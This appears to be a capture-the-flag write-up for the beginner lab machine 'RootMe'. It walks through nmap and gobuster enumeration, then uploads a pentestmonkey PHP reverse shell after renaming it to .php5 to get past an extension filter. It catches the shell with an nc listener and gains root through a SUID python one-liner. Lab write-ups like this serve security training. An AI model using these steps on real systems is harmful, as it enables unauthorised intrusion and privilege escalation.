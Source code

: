 # RootMe

## A ctf for beginners, can you root me?

### Questions

* Scan the machine, how many ports are open?
* What version of Apache are running?
* What is the hidden directory?
* user.txt?
* Search for files with SUID permission, which file is weird?
* root.txt?

## Enumeration

### Nmap

> nmap -sSVC -A -O -vv

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 22:13 BST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
Initiating Ping Scan at 22:13
Scanning 10.10.119.253 [4 ports]
Completed Ping Scan at 22:13, 0.77s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:13
Completed Parallel DNS resolution of 1 host. at 22:13, 0.01s elapsed
Initiating SYN Stealth Scan at 22:13
Scanning 10.10.119.253 [1000 ports]
Discovered open port 22/tcp on 10.10.119.253
Discovered open port 80/tcp on 10.10.119.253
Completed SYN Stealth Scan at 22:13, 5.50s elapsed (1000 total ports)
Initiating Service scan at 22:13
Scanning 2 services on 10.10.119.253
Completed Service scan at 22:13, 7.54s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.10.119.253
Retrying OS detection (try #2) against 10.10.119.253
Retrying OS detection (try #3) against 10.10.119.253
Retrying OS detection (try #4) against 10.10.119.253
Retrying OS detection (try #5) against 10.10.119.253
Initiating Traceroute at 22:14
Completed Traceroute at 22:14, 3.10s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 22:14
Completed Parallel DNS resolution of 2 hosts. at 22:14, 0.01s elapsed
NSE: Script scanning 10.10.119.253.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:14
NSE Timing: About 99.63% done; ETC: 22:14 (0:00:00 remaining)
Completed NSE at 22:15, 48.03s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 2.96s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
Nmap scan report for 10.10.119.253
Host is up, received reset ttl 61 (0.74s latency).
Scanned at 2020-10-12 22:13:40 BST for 97s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/12%OT=22%CT=1%CU=43844%PV=Y%DS=4%DC=T%G=Y%TM=5F84C7
OS:65%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST
OS:11NW6%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Uptime guess: 31.728 days (since Fri Sep 11 04:46:46 2020)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   470.81 ms 10.4.0.1
2   ... 3
4   736.20 ms 10.10.119.253

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.29 seconds
           Raw packets sent: 1130 (53.746KB) | Rcvd: 1082 (46.782KB)
```

#### Q: Scan the machine, how many ports are open?
> A: 2

#### Q: What version of Apache are running?
> A: 2.4.29

#### Q: What service is running on port 22?
> A: ssh

### finding Directories/files 

(i use gobuster (dirbuster was not working))

>gobuster dir -u http://10.10.63.255:80/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t 33 -x html,php,txt

(the ip is different because I continued that writeup the other day)

![image](https://user-images.githubusercontent.com/53917092/95799616-9c977c80-0ccb-11eb-8c12-1261b632a434.png)

#### Q: What is the hidden directory?
> A: /panel/

checking the directory /panel/, we have

![image](https://user-images.githubusercontent.com/53917092/95799962-ad94bd80-0ccc-11eb-82b6-bebb559e010c.png)

let's try upload a shell

shell: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

>curl https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -o revs.php

remember to set a port to listening

>nc -lvp PORT

![image](https://user-images.githubusercontent.com/53917092/95800457-c487df80-0ccd-11eb-951b-1fa61fd38181.png)

"PHP isn't permitted"

let's try bypassing this using the ".php5" extension

> mv revs.php revs.php5

![image](https://user-images.githubusercontent.com/53917092/95800910-fcdbed80-0cce-11eb-9775-7ede504b29aa.png)

it worked

to run click on "veja" ("see")

![image](https://user-images.githubusercontent.com/53917092/95801051-81c70700-0ccf-11eb-9179-d92c4d421c56.png)

it worked, we have shell

to get a tty

> python -c 'import pty;pty.spawn("/bin/bash")'

> Ctrl+Z 

> stty raw -echo

> fg

> export TERM=xterm

![image](https://user-images.githubusercontent.com/53917092/95801836-087ce380-0cd2-11eb-9d6a-dfcb6863ae6c.png)

### user.txt

#### finding

> find / -type f -name user.txt 2>/dev/null

![image](https://user-images.githubusercontent.com/53917092/95803052-770f7080-0cd5-11eb-8a1d-a00ca7024fa4.png)

#### getting

> cat /var/www/user.txt

![image](https://user-images.githubusercontent.com/53917092/97300372-1e8fb580-1835-11eb-9ff6-1de7305674cf.png)

### root.txt / Privilege Escalation

To look for the files with SUID permission we can use the command:

> find / -type f -user root -perm -4000 2>/dev/null

![image](https://user-images.githubusercontent.com/53917092/95803488-9ce94500-0cd6-11eb-9d5c-e8822a26ddb7.png)

#### Exploring python set uid capabilities

> python -c "import os;os.setuid(0);os.system('/bin/bash')"

![image](https://user-images.githubusercontent.com/53917092/95803893-a7f0a500-0cd7-11eb-9a16-463b7cbc950a.png)

#### getting

![image](https://user-images.githubusercontent.com/53917092/97299626-fbb0d180-1833-11eb-8160-946f299c1725.png)

that's it, thanks for reading